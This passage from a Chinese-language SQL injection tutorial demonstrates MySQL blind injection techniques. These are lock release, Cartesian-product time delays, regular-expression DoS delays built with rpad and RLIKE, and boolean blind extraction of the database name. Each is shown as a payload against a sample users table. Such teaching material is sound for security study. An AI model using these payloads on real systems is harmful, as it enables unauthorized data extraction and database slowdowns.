 + 最后还可以释放锁。当显式执行`release_lock(lock_name)`或session隐式地过期时，该锁都会被释放。

```
mysql>  select release_lock('lock1');
+-----------------------+
| release_lock('lock1') |
+-----------------------+
|                     1 |
+-----------------------+
1 row in set (0.00 sec)
```



**（4）笛卡尔积盲注**

笛卡尔积能够将多个表合并成一个表，从而达到时间延时的作用。

```
select count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C
```



```mysql
select * from users where id='1' and (select count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C
```



**（5）正则DOS**

在本地执行后消耗3s。

```mysql
mysql> select * from users where id='1' and if(mid(user(),1,1)='r',concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+cd',1);

Empty set (2.98 sec)
```





#### 4.1.2 布尔盲注

试探是否存在注入，通过页面的回显判断。

```mysql
select * from users where id='1' and 1/1
```

布尔盲注爆数据库名

```mysql
select * from users where id='1' and LEFT(database(),2)='ab'-- 
```

